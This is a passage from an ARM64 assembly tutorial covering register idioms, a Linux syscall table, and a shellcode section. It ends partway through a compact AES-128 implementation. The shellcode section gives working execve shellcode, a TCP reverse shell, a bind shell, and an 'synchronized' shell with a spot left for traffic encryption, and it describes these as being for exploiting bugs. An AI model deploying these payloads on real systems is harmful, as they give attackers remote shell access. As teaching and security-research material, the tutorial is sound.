We can freely use 19 registers without having to preserve them for the caller. Compare this with x86 where only 3 registers are available or 5 for AMD64. One minor annoyance with ARM is calling subroutines. Unlike INTEL CPUs, ARM doesn’t store a return address on the stack. It stores the return address in the Link Register (LR) which is an alias for the x30 register. A callee is expected to save LR/x30 if it calls a subroutine. Not doing so will cause problems. If you migrate from ARM32, you’ll miss the convenience of push and popto save registers. These instructions have been deprecated in favour of load and store instructions, so we need to use STR/STP to save and LDR/LDP to restore. Here’s how you can save/restore registers using the stack.

```assembly
    // push {x0}
    // [base - 16] = x0
    // base = base - 16
    str    x0, [sp, -16]!

    // pop {x0}
    // x0 = [base]
    // base = base + 16
    ldr    x0, [sp], 16

    // push {x0, x1}
    stp    x0, x1, [sp, -16]!

    // pop {x0, x1}
    ldp    x0, x1, [sp], 16
```

You might be wondering why 16 is used to store one register. The stack must always be aligned by 16 bytes. Unaligned access can cause exceptions.

### 5.2 Copying Registers

The first example here is the “normal” way and the rest are a few alternatives.

```assembly
    // Move x1 to x0
    mov     x0, x1

    // Extract bits 0-63 from x1 and store in x0 zero extended.
    ubfx   x0, x1, 0, 63

    // x0 = (x1 & ~0)
    bic    x0, x1, xzr

    // x0 = x1 >> 0
    lsr    x0, x1, 0

    // Use a circular shift (rotate) to move x1 to x0
    ror    x0, x1, 0
    
    // Extract bits 0-63 from x1 and insert into x0
    bfxil  x0, x1, 0, 63
```

### 5.3 Initialize register to zero.

Normally to initialize a counter “i = 0” or pass NULL/0 to a system call. Each one of these instructions will do that.

```assembly
    // Move an immediate value of zero into the register.
    mov    x0, 0

    // Copy the zero register.
    mov    x0, xzr

    // Exclusive-OR the register with itself.
    eor    x0, x0, x0

    // Subtract the register from itself.
    sub    x0, x0, x0

    // Mask the register with zero register using a bitwise AND.
    // An immediate value of zero will work here too.
    and    x0, x0, xzr

    // Multiply the register by the zero register.
    mul    x0, x0, xzr

    // Extract 64 bits from xzr and place in x0.
    bfxil  x0, xzr, 0, 63
    
    // Circular shift (rotate) right.
    ror    x0, xzr, 0

    // Logical shift right.
    lsr    x0, xzr, 0
    
    // Reverse bytes of zero register.
    rev    x0, xzr
```

### 5.4 Initialize register to 1.

Rarely does a counter start at 1, but it’s common enough passing to a system call.

```assembly
    // Move 1 into x0.
    mov     x0, 1

    // Compare x0 with x0 and set x0 if equal.
    cmp     x0, x0
    cset    x0, eq

    // Bitwise NOT the zero register and store in x0. Negate x0.
    mvn     x0, xzr
    neg     x0, x0
```

### 5.5 Initialize register to -1.

Some system calls require this value.

```assembly
    // move -1 into register
    mov     x0, -1

    // copy the zero register inverted
    mvn     x0, xzr

    // x0 = ~(x0 ^ x0)
    eon     x0, x0, x0

    // x0 = (x0 | ~xzr)
    orn     x0, x0, xzr

    // x0 = (int)0xFF
    mov     w0, 255
    sxtb    x0, w0

    // x0 = (x0 == x0) ? -1 : x0
    cmp     x0, x0
    csetm   x0, eq
```

### 5.6 Initialize register to 0x80000000.

This might seem vague now, but an algorithm like X25519 uses this value for its reduction step.

```assembly
    mov     w0, 0x80000000

    // Set bit 31 of w0.
    mov     w0, 1
    mov     w0, w0, lsl 31

    // Set bit 31 of w0.
    mov     w0, 1
    ror     w0, w0, 1

    // Set bit 31 of w0.
    mov     w0, 1
    rbit    w0, w0

    // Set bit 31 of w0.
    eon     w0, w0, w0
    lsr     w0, w0, 1
    add     w0, w0, 1
    
    // Set bit 31 of w0.
    mov     w0, -1
    extr    w0, w0, wzr, 1
```

### 5.7 Testing for 1/TRUE.

A function returning TRUE normally indicates success, so these are some ways to test for that.

```assembly
    // Compare x0 with 1, branch if equal.
    cmp     x0, 1
    beq     true

    // Compare x0 with zero register, branch if not equal.
    cmp     x0, xzr
    bne     true
    
    // Subtract 1 from x0 and set flags. Branch if equal. (Z flag is set)
    subs    x0, x0, 1
    beq     true

    // Negate x0 and set flags. Branch if x0 is negative.
    negs    x0, x0
    bmi     true

    // Conditional branch if x0 is not zero.
    cbnz    x0, true

    // Test bit 0 and branch if not zero.
    tbnz    x0, 0, true
```

### 5.8 Testing for 0/FALSE.

Typically, we see a CMP instruction used in handwritten assembly code to evaluate this condition. This subtracts the source register from the destination register, sets the flags, and discards the result.

```assembly
    // x0 == 0
    cmp     x0, 0
    beq     false

    // x0 == 0
    cmp     x0, xzr
    beq     false

    ands    x0, x0, x0
    beq     false

    // same as ANDS, but discards result
    tst     x0, x0
    beq     false

    // x0 == -0
    negs    x0
    beq     false

    // (x0 - 1) == -1
    subs    x0, x0, 1
    bmi     false

    // if (!x0) goto false
    cbz     x0, false

    // if (!x0) goto false
    tbz     x0, 0, false
```

### 5.9 Testing for -1

Some functions will return a negative number like -1 to indicate failure. CMN is used in the first example. This behaves exactly like CMP, except it is adding the source value (register or immediate) to the destination register, setting the flags and discarding the result.

```assembly
    // w0 == -1
    cmn     w0, 1
    beq     failed

    // w0 == 0
    cmn     w0, wzr
    bmi     failed

    // negative?
    ands    w0, w0, w0
    bmi     failed

    // same as AND, but discards result
    tst     w0, w0
    bmi     failed

    // w0 & 0x80000000
    tbz     w0, 31, failed
```

## 6. Linux Shellcode

Developing an operating system, writing boot code, reverse engineering or exploiting vulnerabilities; these are all valid reasons to learn assembly language. In the case of exploiting bugs, one needs to have a grasp of writing shellcodes. These are compact position independent codes that use system calls to interact with the operating system.

### 6.1 System Calls

System calls are a bridge between the user and kernel space running at a higher privileged level. Each call has its own unique number that is essentially an index into an array of function pointers located in the kernel. Whether you want to write to a file on disk, send and receive data over the network or just print a message to the screen, all of this must be performed via system calls at some point.

A full list of calls can be found in the Linux source tree on github [here](https://github.com/torvalds/linux/blob/master/include/uapi/asm-generic/unistd.h), but if you’re already logged into a Linux system running on ARM64, you might find a list in **/usr/include/asm-generic/unistd.h** too. Here are a few to save you time looking up.

```assembly
  // Linux/AArch64 system calls
  .equ SYS_epoll_create1,   20
  .equ SYS_epoll_ctl,       21
  .equ SYS_epoll_pwait,     22
  .equ SYS_dup3,            24
  .equ SYS_fcntl,           25
  .equ SYS_statfs,          43
  .equ SYS_faccessat,       48
  .equ SYS_chroot,          51
  .equ SYS_fchmodat,        53
  .equ SYS_openat,          56
  .equ SYS_close,           57
  .equ SYS_pipe2,           59
  .equ SYS_read,            63
  .equ SYS_write,           64
  .equ SYS_pselect6,        72
  .equ SYS_ppoll,           73
  .equ SYS_splice,          76
  .equ SYS_exit,            93
  .equ SYS_futex,           98
  .equ SYS_kill,           129
  .equ SYS_reboot,         142
  .equ SYS_setuid,         146
  .equ SYS_setsid,         157
  .equ SYS_uname,          160
  .equ SYS_getpid,         172
  .equ SYS_getppid,        173
  .equ SYS_getuid,         174
  .equ SYS_getgid,         176
  .equ SYS_gettid,         178
  .equ SYS_socket,         198
  .equ SYS_bind,           200
  .equ SYS_listen,         201
  .equ SYS_accept,         202
  .equ SYS_connect,        203
  .equ SYS_sendto,         206
  .equ SYS_recvfrom,       207
  .equ SYS_setsockopt,     208
  .equ SYS_getsockopt,     209
  .equ SYS_shutdown,       210
  .equ SYS_munmap,         215
  .equ SYS_clone,          220
  .equ SYS_execve,         221
  .equ SYS_mmap,           222
  .equ SYS_mprotect,       226
  .equ SYS_wait4,          260
  .equ SYS_getrandom,      278
  .equ SYS_memfd_create,   279
  .equ SYS_access,        1033
```

All registers except those required to return values are preserved. System calls return results in x0 while everything else remains the same, including the conditional flags. In the shellcode, only immediate values and stack are used for strings. This is the approach I recommend because it allows manipulation of the string before it’s stored on the stack. Using LDR and the literal pool is a good alternative.

### 6.2 Tracing

“strace” is a diagnostic and debugging utility for Linux can show problems in your code. It will show what system calls are implemented by the kernel and which ones are simply wrapper functions in GLIBC. As I found out while writing some of the shellcodes, there is no `dup2`, `pipe`, or `fork` system calls. There are only wrapper functions in GLIBC that call `dup3`, `pipe2` and `clone`.

### 6.3 Executing a shell.

```assembly
// 40 bytes

    .arch armv8-a

    .include "include.inc"

    .global _start
    .text

_start:
    // execve("/bin/sh", NULL, NULL);
    mov    x8, SYS_execve
    mov    x2, xzr           // NULL
    mov    x1, xzr           // NULL
    movq   x3, BINSH         // "/bin/sh"
    str    x3, [sp, -16]!    // stores string on stack
    mov    x0, sp
    svc    0
```

### 6.4 Executing a command.

Executing a command can be a good replacement for a reverse connecting or bind shell because if a system can execute netcat, ncat, wget, curl, GET then executing a command may be sufficient to compromise a system further. The following just echos “Hello, World!” to the console.

```assembly
// 64 bytes

    .arch armv8-a
    .align 4

    .include "include.inc"

    .global _start
    .text

_start:
    // execve("/bin/sh", {"/bin/sh", "-c", cmd, NULL}, NULL);
    movq   x0, BINSH             // x0 = "/bin/sh\0"
    str    x0, [sp, -64]!
    mov    x0, sp
    mov    x1, 0x632D            // x1 = "-c"
    str    x1, [sp, 16]
    add    x1, sp, 16
    adr    x2, cmd               // x2 = cmd
    stp    x0, x1,  [sp, 32]     // store "-c", "/bin/sh"
    stp    x2, xzr, [sp, 48]     // store cmd, NULL
    mov    x2, xzr               // penv = NULL
    add    x1, sp, 32            // x1 = argv
    mov    x8, SYS_execve
    svc    0
cmd:
    .asciz "echo Hello, World!"
```

### 6.5 Reverse connecting shell over TCP.

The reverse shell makes an outgoing connection to a remote host and upon connection will spawn a shell that accepts input. Rather than use PC-relative instructions, the network address structure is initialized using immediate values.

```assembly
// 120 bytes

    .arch armv8-a

    .include "include.inc"

    .equ PORT, 1234
    .equ HOST, 0x0100007F // 127.0.0.1

    .global _start
    .text

_start:
    // s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    mov     x8, SYS_socket
    mov     x2, IPPROTO_IP
    mov     x1, SOCK_STREAM
    mov     x0, AF_INET
    svc     0

    mov     w3, w0       // w3 = s

    // connect(s, &sa, sizeof(sa));
    mov     x8, SYS_connect
    mov     x2, 16
    movq    x1, ((HOST << 32) | ((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET)
    str     x1, [sp, -16]!
    mov     x1, sp     // x1 = &sa 
    svc     0

    // in this order
    //
    // dup3(s, STDERR_FILENO, 0);
    // dup3(s, STDOUT_FILENO, 0);
    // dup3(s, STDIN_FILENO,  0);
    mov     x8, SYS_dup3
    mov     x1, STDERR_FILENO + 1
c_dup:
    mov     x2, xzr
    mov     w0, w3
    subs    x1, x1, 1
    svc     0
    bne     c_dup

    // execve("/bin/sh", NULL, NULL);
    mov     x8, SYS_execve
    movq    x0, BINSH
    str     x0, [sp]
    mov     x0, sp
    svc     0
```

### 6.6 Bind shell over TCP.

Pretty much the same as the reverse shell except we listen for incoming connections using three separate system calls. `bind`, `listen`, `accept` are used in place of `connect`. This could easily be updated to include `connect` using the conditional assembly directives discussed before.

```assembly
// 148 bytes

    .arch armv8-a

    .include "include.inc"

    .equ PORT, 1234

    .global _start
    .text

_start:
    // s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    mov     x8, SYS_socket
    mov     x2, IPPROTO_IP
    mov     x1, SOCK_STREAM
    mov     x0, AF_INET
    svc     0

    mov     w3, w0       // w3 = s

    // bind(s, &sa, sizeof(sa));  
    mov     x8, SYS_bind
    mov     x2, 16
    movl    w1, (((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET)
    str     x1, [sp, -16]!
    mov     x1, sp
    svc     0

    // listen(s, 1);
    mov     x8, SYS_listen
    mov     x1, 1
    mov     w0, w3
    svc     0

    // r = accept(s, 0, 0);
    mov     x8, SYS_accept
    mov     x2, xzr
    mov     x1, xzr
    mov     w0, w3
    svc     0

    mov     w3, w0

    // in this order
    //
    // dup3(s, STDERR_FILENO, 0);
    // dup3(s, STDOUT_FILENO, 0);
    // dup3(s, STDIN_FILENO,  0);
    mov     x8, SYS_dup3
    mov     x1, STDERR_FILENO + 1
c_dup:
    mov     w0, w3
    subs    x1, x1, 1
    svc     0
    bne     c_dup

    // execve("/bin/sh", NULL, NULL);
    mov     x8, SYS_execve
    movq    x0, BINSH
    str     x0, [sp]
    mov     x0, sp
    svc     0
```

### 6.7 Synchronized shell

“And now for something completely different.”

There’s nothing wrong with the bind or reverse shells mentioned. They work fine. However, it’s not possible to manipulate the incoming or outgoing streams of data, so there isn’t any confidentiality provided between two systems. To solve this we use sychronization. Most POSIX systems offer the `select` function for this purpose that allows us to monitor I/O of file descriptors. However, `select` is limited in how many descriptors it can monitor in a single process and for that reason, `kqueue` on BSD and `epoll` on Linux were developed so they are unaffected by the same limitations.

```c
#define _GNU_SOURCE

#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <arpa/inet.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <signal.h>
#include <sys/epoll.h>
#include <fcntl.h>
#include <sched.h>

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>

int main(void) {
    struct sockaddr_in sa;
    int                i, r, w, s, len, efd; 
    #ifdef BIND
    int                s2;
    #endif
    int                fd, in[2], out[2];
    char               buf[BUFSIZ];
    struct epoll_event evts;
    char               *args[]={"/bin/sh", NULL};
    pid_t              ctid, pid;
 
    // create pipes for redirection of stdin/stdout/stderr
    pipe2(in, 0);
    pipe2(out, 0);

    // fork process
    ctid = syscall(SYS_gettid);
    
    pid  = syscall(SYS_clone, 
        CLONE_CHILD_SETTID   | 
        CLONE_CHILD_CLEARTID | 
        SIGCHLD, 0, NULL, 0, &ctid);

    // if child process
    if (pid == 0) {
      // assign read end to stdin
      dup3(in[0],  STDIN_FILENO,  0);
      // assign write end to stdout   
      dup3(out[1], STDOUT_FILENO, 0);
      // assign write end to stderr  
      dup3(out[1], STDERR_FILENO, 0);  
      
      // close pipes
      close(in[0]);  close(in[1]);
      close(out[0]); close(out[1]);
      
      // execute shell
      execve(args[0], args, 0);
    } else {      
      // close read and write ends
      close(in[0]); close(out[1]);
      
      // create a socket
      s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
      
      sa.sin_family = AF_INET;
      sa.sin_port   = htons(atoi("1234"));
      
      #ifdef BIND
        // bind to port for incoming connections
        sa.sin_addr.s_addr = INADDR_ANY;
        
        bind(s, (struct sockaddr*)&sa, sizeof(sa));
        listen(s, 0);
        r = accept(s, 0, 0);
        s2 = s; s = r;
      #else
        // connect to remote host
        sa.sin_addr.s_addr = inet_addr("127.0.0.1");
      
        r = connect(s, (struct sockaddr*)&sa, sizeof(sa));
      #endif
      
      // if ok
      if (r >= 0) {
        // open an epoll file descriptor
        efd = epoll_create1(0);
 
        // add 2 descriptors to monitor stdout and socket
        for (i=0; i<2; i++) {
          fd = (i==0) ? s : out[0];
          evts.data.fd = fd;
          evts.events  = EPOLLIN;
        
          epoll_ctl(efd, EPOLL_CTL_ADD, fd, &evts);
        }
          
        // now loop until user exits or some other error
        for (;;) {
          r = epoll_pwait(efd, &evts, 1, -1, NULL);
                  
          // error? bail out           
          if (r < 0) break;
         
          // not input? bail out
          if (!(evts.events & EPOLLIN)) break;

          fd = evts.data.fd;
          
          // assign socket or read end of output
          r = (fd == s) ? s     : out[0];
          // assign socket or write end of input
          w = (fd == s) ? in[1] : s;

          // read from socket or stdout        
          len = read(r, buf, BUFSIZ);

          if (!len) break;
          
          // encrypt/decrypt data here
          
          // write to socket or stdin        
          write(w, buf, len);        
        }      
        // remove 2 descriptors 
        epoll_ctl(efd, EPOLL_CTL_DEL, s, NULL);                  
        epoll_ctl(efd, EPOLL_CTL_DEL, out[0], NULL);                  
        close(efd);
      }
      // shutdown socket
      shutdown(s, SHUT_RDWR);
      close(s);
      #ifdef BIND
        close(s2);
      #endif
      // terminate shell      
      kill(pid, SIGCHLD);            
    }
    close(in[1]);
    close(out[0]);
    return 0; 
}
```

Let’s see how some of these calls were implemented using the A64 set. First, replacing the standard I/O handles with pipe descriptors.

```c
  // assign read end to stdin
  dup3(in[0],  STDIN_FILENO,  0);
  // assign write end to stdout   
  dup3(out[1], STDOUT_FILENO, 0);
  // assign write end to stderr  
  dup3(out[1], STDERR_FILENO, 0);  
```

The write end of out is assigned to stdout and stderr while the read end of in is assigned to stdin. We can perform this with the following.

```assembly
    mov     x8, SYS_dup3
    mov     x2, xzr
    mov     x1, xzr
    ldr     w0, [sp, in0]
    svc     0

    add     x1, x1, 1
    ldr     w0, [sp, out1]
    svc     0

    add     x1, x1, 1
    ldr     w0, [sp, out1]
    svc     0
```

Eleven instructions or 44 bytes are used for this. If we want to save a few bytes, we could use a loop instead. The value of `STDIN_FILENO` is conveniently zero and `STDERR_FILENO` is 2. We can simply loop from 0 to 3 and use a ternary operator to choose the correct descriptor.

```c
  for (i=0; i<3; i++) {
    dup3(i==0 ? in[0] : out[1], i, 0);
  }
```

To perform the same operation in assembly, we can use the CSEL instruction.

```assembly
    mov     x8, SYS_dup3
    mov     x1, (STDERR_FILENO + 1) // x1 = 3
    mov     x2, xzr                 // x2 = 0
    ldp     w4, w3, [sp, out1]      // w4 = out[1], w3 = in[0]
c_dup:
    subs    x1, x1, 1               // 
    csel    w0, w3, w4, eq          // w0 = (x1==0) ? in[0] : out[1]
    svc     0
    cbnz    x1, c_dup
    
```

Using a loop in place of what we orginally had, we remove three instructions and save a total of twelve bytes. A similar operation can be implemented for closing the pipe handles. In the C code, it simply closes each one in separate statements like so.

```c
  // close pipes
  close(in[0]);  close(in[1]);
  close(out[0]); close(out[1]);
```

For the assembly code, a loop is used instead. Six instructions are used instead of eight.

```assembly
    mov     x1, 4*4          // i = 4
    mov     x8, SYS_close
cls_pipe:
    sub     x1, x1, 4        // i--
    ldr     w0, [sp, x1]     // w0 = pipes[i]
    svc     0
    cbnz    x1, cls_pipe     // while (i != 0)
```

The `epoll_pwait` system call is used instead of the `pselect6` system call to monitor file descriptors. Before calling `epoll_pwait` we must create an epoll file descriptor using `epoll_create1` and add descriptors to it using `epoll_ctl`. The following code does that once a connection to remote peer has been established.

```c
  // add 2 descriptors to monitor stdout and socket
  for (i=0; i<2; i++) {
    fd = (i==0) ? s : out[0];
    evts.data.fd = fd;
    evts.events  = EPOLLIN;
  
    epoll_ctl(efd, EPOLL_CTL_ADD, fd, &evts);
  }
```

All registers including the process state are preserved across system calls. So we could implement the above code using the following assembly code.

```assembly
    mov     x8, SYS_epoll_ctl
    add     x3, sp, evts       // x3 = &evts
    mov     x1, EPOLL_CTL_ADD  // x1 = EPOLL_CTL_ADD
    mov     x4, EPOLLIN

    ldr     w2, [sp, s]        // w2 = s
    stp     x4, x2, [sp, evts]
    ldr     w0, [sp, efd]      // w0 = efd
    svc     0

    ldr     w2, [sp, out0]     // w2 = out[0]
    stp     x4, x2, [sp, evts]
    ldr     w0, [sp, efd]      // w0 = efd
    svc     0
```

Twelve instructions used here or forty-eight bytes. Using a loop, let’s see if we can save more space. Some of you may have noticed both `EPOLL_CTL_ADD` and `EPOLLIN` are 1. We can save 4 bytes with the following.

```assembly
    // epoll_ctl(efd, EPOLL_CTL_ADD, fd, &evts);
    ldr     w2, [sp, s]
    ldr     w4, [sp, out0]
poll_init:
    mov     x8, SYS_epoll_ctl
    mov     x1, EPOLL_CTL_ADD
    add     x3, sp, evts
    stp     x1, x2, [x3]
    ldr     w0, [sp, efd]
    svc     0
    cmp     w2, w4
    mov     w2, w4
    bne     poll_init
```

The value returned by the `epoll_pwait` system call must be checked before continuing to process the events structure. If successful, it will return the number of file descriptors that were signalled while -1 will indicate an error.

```c
  r = epoll_pwait(efd, &evts, 1, -1, NULL);
          
  // error? bail out           
  if (r < 0) break;
```

Recall in the Common Operations section where we test for -1. One could use the following assembly code.

```assembly
    tst     x0, x0
    bmi     cls_efd
```

A64 provides a conditional branch opcode that allows us to execute the IF statement in one instruction.

```assembly
    tbnz    x0, 31, cls_efd
```

After this check, we then need to determine if the signal was the result of input. We are only monitoring for input to a read end of pipe and socket. Every other event would indicate an error.

```c
  // not input? bail out
  if (!(evts.events & EPOLLIN)) break;

  fd = evts.data.fd;
```

The value of `EPOLLIN` is 1, and we only want those type of events. By masking the value of events with 1 using a bitwise AND, if the result is zero, then the peer has disconnected. Load pair is used to load both the events and data_fd values simultaneously.

```
    // x0 = evts.events, x1 = evts.data.fd
    ldp     x0, x1, [sp, evts]

    // if (!(evts.events & EPOLLIN)) break;
    tbz     w0, 0, cls_efd
```

Our code will read from either out[0] or s.

```
  // assign socket or read end of output
  r = (fd == s) ? s     : out[0];
  // assign socket or write end of input
  w = (fd == s) ? in[1] : s;
```

Using the highly useful conditional select instruction, we can select the correct descriptors to read and write to.

```
    // w3 = s
    ldr     w3, [sp, s]
    // w5 = in[1], w4 = out[0]
    ldp     w5, w4, [sp, in1]

    // fd == s
    cmp     w1, w3

    // r = (fd == s) ? s : out[0];
    csel    w0, w3, w4, eq

    // w = (fd == s) ? in[1] : s;
    csel    w3, w5, w3, eq
```

The final assembly code for the synchronized shell follows.

```assembly
    .arch armv8-a
    .align 4

    // default TCP port
    .equ PORT, 1234

    // default host, 127.0.0.1
    .equ HOST, 0x0100007F

    // comment out for a reverse connecting shell
    .equ BIND, 1

    // comment out for code to behave as a function
    .equ EXIT, 1

    .include "include.inc"

    // structure for stack variables

          .struct 0
    p_in: .skip 8
          .equ in0, p_in + 0
          .equ in1, p_in + 4

    p_out:.skip 8
          .equ out0, p_out + 0
          .equ out1, p_out + 4

    id:   .skip 8
    efd:  .skip 4
    s:    .skip 4

    .ifdef BIND
    s2:   .skip 8
    .endif

    evts: .skip 16
          .equ events, evts + 0
          .equ data_fd,evts + 8

    buf:  .skip BUFSIZ
    ds_tbl_size:

    .global _start
    .text
_start:
    // allocate memory for variables
    // ensure data structure aligned by 16 bytes
    sub     sp, sp, (ds_tbl_size & -16) + 16

    // create pipes for stdin
    // pipe2(in, 0);
    mov     x8, SYS_pipe2
    mov     x1, xzr
    add     x0, sp, p_in
    svc     0

    // create pipes for stdout + stderr
    // pipe2(out, 0);
    add     x0, sp, p_out
    svc     0

    // syscall(SYS_gettid);
    mov     x8, SYS_gettid
    svc     0
    str     w0, [sp, id]

    // clone(CLONE_CHILD_SETTID   | 
    //       CLONE_CHILD_CLEARTID | 
    //       SIGCHLD, 0, NULL, NULL, &ctid)
    mov     x8, SYS_clone
    add     x4, sp, id           // ctid
    mov     x3, xzr              // newtls
    mov     x2, xzr              // ptid
    movl    x0, (CLONE_CHILD_SETTID + CLONE_CHILD_CLEARTID + SIGCHLD)
    svc     0
    str     w0, [sp, id]         // save id
    cbnz    w0, opn_con          // if already forked?
                                 // open connection
    // in this order..
    //
    // dup3 (out[1], STDERR_FILENO, 0);
    // dup3 (out[1], STDOUT_FILENO, 0);
    // dup3 (in[0],  STDIN_FILENO , 0);
    mov     x8, SYS_dup3
    mov     x1, STDERR_FILENO + 1
    ldr     w3, [sp, in0]
    ldr     w4, [sp, out1]
c_dup:
    subs    x1, x1, 1
    // w0 = (x1 == 0) ? in[0] : out[1];
    csel    w0, w3, w4, eq
    svc     0
    cbnz    x1, c_dup

    // close pipe handles in this order..
    //
    // close(in[0]);
    // close(in[1]);
    // close(out[0]);
    // close(out[1]);
    mov     x1, 4*4
    mov     x8, SYS_close
cls_pipe:
    sub     x1, x1, 4
    ldr     w0, [sp, x1]
    svc     0
    cbnz    x1, cls_pipe

    // execve("/bin/sh", NULL, NULL);
    mov     x8, SYS_execve
    movq    x0, BINSH
    str     x0, [sp, -16]!
    mov     x0, sp
    svc     0
opn_con:
    // close(in[0]);
    mov     x8, SYS_close
    ldr     w0, [sp, in0]
    svc     0

    // close(out[1]);
    ldr     w0, [sp, out1]
    svc     0

    // s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    mov     x8, SYS_socket
    mov     x1, SOCK_STREAM
    mov     x0, AF_INET
    svc     0

    mov     x2, 16      // x2 = sizeof(sin)
    str     w0, [sp, s] // w0 = s
.ifdef BIND
    movl    w1, (((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET)
    str     x1, [sp, -16]!
    mov     x1, sp
    // bind (s, &sa, sizeof(sa));
    mov     x8, SYS_bind
    svc     0
    add     sp, sp, 16
    cbnz    x0, cls_sck  // if(x0 != 0) goto cls_sck

    // listen (s, 1);
    mov     x8, SYS_listen
    mov     x1, 1
    ldr     w0, [sp, s]
    svc     0

    // accept (s, 0, 0);
    mov     x8, SYS_accept
    mov     x2, xzr
    mov     x1, xzr
    ldr     w0, [sp, s]
    svc     0

    ldr     w1, [sp, s]      // load binding socket
    stp     w0, w1, [sp, s]
    mov     x0, xzr
.else
    movq    x1, ((HOST << 32) | (((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET))
    str     x1, [sp, -16]!
    mov     x1, sp
    // connect (s, &sa, sizeof(sa));
    mov     x8, SYS_connect
    svc     0
    add     sp, sp, 16
    cbnz    x0, cls_sck      // if(x0 != 0) goto cls_sck
.endif
    // efd = epoll_create1(0);
    mov     x8, SYS_epoll_create1
    svc     0
    str     w0, [sp, efd]

    // epoll_ctl(efd, EPOLL_CTL_ADD, fd, &evts);
    ldr     w2, [sp, s]
    ldr     w4, [sp, out0]
poll_init:
    mov     x8, SYS_epoll_ctl
    mov     x1, EPOLL_CTL_ADD
    add     x3, sp, evts
    stp     x1, x2, [x3]
    ldr     w0, [sp, efd]
    svc     0
    cmp     w2, w4
    mov     w2, w4
    bne     poll_init
    // now loop until user exits or some other error
poll_wait:
    // epoll_pwait(efd, &evts, 1, -1, NULL);
    mov     x8, SYS_epoll_pwait
    mov     x4, xzr              // sigmask   = NULL
    mvn     x3, xzr              // timeout   = -1
    mov     x2, 1                // maxevents = 1
    add     x1, sp, evts         // *events   = &evts
    ldr     w0, [sp, efd]        // epfd      = efd
    svc     0

    // if (r < 0) break;
    tbnz    x0, 31, cls_efd

    // if (!(evts.events & EPOLLIN)) break;
    ldp     x0, x1, [sp, evts]
    tbz     w0, 0, cls_efd

    ldr     w3, [sp, s]
    ldp     w5, w4, [sp, in1]

    cmp     w1, w3

    // r = (fd == s) ? s : out[0];
    csel    w0, w3, w4, eq

    // w = (fd == s) ? in[1] : s;
    csel    w3, w5, w3, eq

    // read(r, buf, BUFSIZ);
    mov     x8, SYS_read
    mov     x2, BUFSIZ
    add     x1, sp, buf
    svc     0
    cbz     x0, cls_efd

    // encrypt/decrypt buffer

    // write(w, buf, len);
    mov     x8, SYS_write
    mov     w2, w0
    mov     w0, w3
    svc     0
    b       poll_wait
cls_efd:
    // epoll_ctl(efd, EPOLL_CTL_DEL, s, NULL);
    mov     x8, SYS_epoll_ctl
    mov     x3, xzr
    mov     x1, EPOLL_CTL_DEL
    ldp     w0, w2, [sp, efd]
    svc     0

    // epoll_ctl(efd, EPOLL_CTL_DEL, out[0], NULL);
    ldr     w2, [sp, out0]
    ldr     w0, [sp, efd]
    svc     0

    // close(efd);
    mov     x8, SYS_close
    ldr     w0, [sp, efd]
    svc     0

    // shutdown(s, SHUT_RDWR);
    mov     x8, SYS_shutdown
    mov     x1, SHUT_RDWR
    ldr     w0, [sp, s]
    svc     0
cls_sck:
    // close(s);
    mov     x8, SYS_close
    ldr     w0, [sp, s]
    svc     0

.ifdef BIND
    // close(s2);
    mov     x8, SYS_close
    ldr     w0, [sp, s2]
    svc     0
.endif
    // kill(pid, SIGCHLD);
    mov     x8, SYS_kill
    mov     x1, SIGCHLD
    ldr     w0, [sp, id]
    svc     0

    // close(in[1]);
    mov     x8, SYS_close
    ldr     w0, [sp, in1]
    svc     0

    // close(out[0]);
    mov     x8, SYS_close
    ldr     w0, [sp, out0]
    svc     0

.ifdef EXIT
    // exit(0);
    mov     x8, SYS_exit
    svc     0
.else
    // deallocate stack
    add     sp, sp, (ds_tbl_size & -16) + 16
    ret
.endif
```

## 7. Encryption

Every one of you reading this should learn about cryptography. Yes, it’s a complex subject, but you don’t need to be a mathematician just to learn about all the various algorithms that exist. Many cryptographic algorithms intended to protect are available, but not all of them were designed for resource constrained environments. In this section, you’ll see a number of cryptographic algorithms that you might consider using in a shellcode at some point. The block ciphers only implement encryption. That is to say, there is no inverse function provided and therefore cannot be used with a mode like Cipher Block Chaining (CBC) mode. Encryption is all that’s required to implement Counter (CTR) mode. Moreover, it’s likely that permutation-based cryptography will eventually replace traditional types of encryption. The algorithms shown here are intentionally optimized for size rather than speed.

Also…**None of the algorithms presented here are written to protect against side-channel attacks. That’s just in case anyone wants to point out a weakness. **

### 7.1 AES-128

A block cipher published in 1998 and originally called ‘Rijndael’ after its designers, Vincent Rijmen and Joan Daemen. Today, it’s known as the Advanced Encryption Standard (AES). I’ve included it here because AES extensions are only an optional component of ARM. The Cortex A53 that comes with the Raspberry Pi 3 does not have support for AES. This implementation along with others can be found in [this](https://github.com/odzhan/aes_dust) Github repository.

[ADVANCED ENCRYPTION STANDARD (AES)](https://nvlpubs.nist.gov/nistpubs/fips/nist.fips.197.pdf)

```c
#define R(v,n)(((v)>>(n))|((v)<<(32-(n))))
#define F(n)for(i=0;i<n;i++)
typedef unsigned char B;
typedef unsigned int W;
// Multiplication over GF(2**8)
W M(W x){
    W t=x&0x80808080;
    return((x^t)*2)^((t>>7)*27);
}
// SubByte
B S(B w) {
    B j,y,z;
    
    if(w) {
      for(z=j=0,y=1;--j;y=(!z&&y==w)?z=1:y,y^=M(y));
      z=y;F(4)z^=y=(y<<1)|(y>>7);
    }
    return z^99;
}
void E(B *s) {
    W i,w,x[8],c=1,*k=(W*)&x[4];

    // copy plain text + master key to x
    F(8)x[i]=((W*)s)[i];

    for(;;){
      // AddRoundKey, 1st part of ExpandRoundKey
      w=k[3];F(4)w=(w&-256)|S(w),w=R(w,8),((W*)s)[i]=x[i]^k[i];

      // AddRoundConstant, perform 2nd part of ExpandRoundKey
      w=R(w,8)^c;F(4)w=k[i]^=w;

      // if round 11, stop; 
      if(c==108)break; 
      
      // update round constant
      c=M(c);

      // SubBytes and ShiftRows
      F(16)((B*)x)[(i%4)+(((i/4)-(i%4))%4)*4]=S(s[i]);

